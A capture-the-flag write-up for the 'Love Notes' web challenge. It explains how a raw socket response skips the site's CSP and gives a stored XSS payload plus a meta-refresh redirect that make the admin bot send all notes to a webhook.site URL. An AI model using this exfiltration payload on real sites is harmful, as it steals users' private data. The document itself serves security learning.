


# Love Notes

## Overview 

Write messages to your crush but watch out, some hide secrets and some notes are better left unread

https://love-notes.chal.crewc.tf/

## Initial Recon


After signing up and logging in, we see a dashboard to post and view our notes.


This looks like it could be XSS. However, when we attempt to XSS in either the Title or Content box, the bot doesn't appear to be doing anything. Upon a closer look, we see that the dashboard has a Content Security Policy (CSP) blocking inline script execution.



So it seems that we cannot attempt direct XSS execution in the dashboard. Now let's take a closer look at the source code.

## Looking at Source Code

We are given the source code to the website. There are a few things that catches my attention. 

### Firstly we have **start.js**:

> const FLAG = process.env.FLAG ?? 'crewctf{REDACTED}'
>
>    const notes = [
>
>      { title: FLAG, content:  "..."},
>
>      { title: '...' }
>    ];

This tells me that the flag is an enviromental variable.

### Next we have **bot.js**:

> const notesRouter = require('./routes/notes');
>
> app.use('/api/notes', protectRoute, notesRouter);  

This is very important, because it tells me that everytime the web app is loaded, there is a request to /api/notes which displays the JSON of all user notes. 

We can assume the reporting bot runs with an admin session, because otherwise it wouldn’t have access to other users’ notes. Therefore the bot will have access to the flag.

### Next we have **auth.js**:

> const jwtSecret = crypto.randomBytes(64).toString('hex');

This pretty much tells us that we can't reverse encode our cookies to give ourselves admin access as the jwt key is randomised every time. We can also see that from **start.js** that we cannot guess the admin username and password as well.

>const ADMIN_USER = randomUUID();
>
>const ADMIN_PASS = randomUUID();

### Next we have **notes.js**:

```
router.get('/:noteId', async (req, res) => {
  const { noteId } = req.params;
  try {
    const note = await Note.findById(noteId);
    if (!note) {
      return res.status(404).json({ message: 'Note not found' });
    }

    // Look mom, I wrote a raw HTTP response all by myself!
    // Can I go outside now and play with my friends?
    const responseMessage = `HTTP/1.1 200 OK
Date: Sun, 7 Nov 1917 11:26:07 GMT
Last-Modified: the-second-you-blinked
Type: flag-extra-salty, thanks
Length: 1337 bytes of pain
Server: thehackerscrew/1970 
Cache-Control: never-ever-cache-this
Allow: pizza, hugs, high-fives
X-CTF-Player-Reminder: drink-water-and-keep-hydrated

${note.title}: ${note.content}

`
    res.socket.end(responseMessage)
  } catch (error) {
    console.error(error);
    res.status(500).json({ message: 'Server error' });
  }
});
```

Typically we would see this for CSP headers:

> res.setHeader("Content-Type", "application/json");  
> res.send(note);

or if we are rendering HTML:

> res.render('template', {note});

However, in **note.js**, we see:

> res.socket.end(responseMessage)

There’s no res.setHeader(...) anywhere and no Content-Security-Policy header added. By bypassing Express’s usual ```res.send()``` or templating, the developer also bypasses any default headers like Content-Type or CSP. This means the browser treats the response as raw HTML, making a potential payload run.

Because the server wrote a raw HTTP response with ```res.socket.end```, it omitted headers. This let the browser treat the response as raw HTML, which meant the injected ```<script>``` would execute.

### So how do we exploit this?

The app has a “report” button that causes the admin bot to look at a reported note. If we can control what the bot sees, we can show it any page.

From our tests and observations we notice 2 very helpful things:

1. We cannot run JS/XSS in dashboard as it is CSP protected
2. /api/notes/:id has no CSP protection

Ideally, we want to redirect the bot to look at ```/api/notes/:id```, which contains our payload.

So now we just need to post our payload in one message, and our redirection in another. Then report the redirection to the bot, for the bot to execute the payload. 

What is our payload and redirection going to be?

Because inline ```<script>``` was blocked and CSP applied on the dashboard, but not on ```/api/notes/:id```, we used a harmless HTML tag (```<meta>``` refresh) in a normal note to redirect the bot to the unprotected endpoint where our payload lived.

```
Payload: Contains the actual XSS payload

<script>
  (async()=>{
    try{
      const t = await (await fetch('/api/notes')).text();
      navigator.sendBeacon('https://webhook.site/dccfa4bf-e3ea-4c9c-890d-c92f235baa0c', t);
    }catch(e){}
  })();
</script>
```

```
Redirection: Automatically redirects the bot to specific ID

<meta http-equiv="refresh" content="0;url=/api/notes/6fdfea4d-841d-425b-bc77-5adecdc1fcc8">
```

The ```navigator.sendBeacon()``` call sends the stolen notes data to our webhook endpoint, which logs it for retrieval outside the challenge environment.

This avoids CSP restrictions and is asynchronous, it’s the most reliable way to send data from a victim page to an external server




And we get the flag!

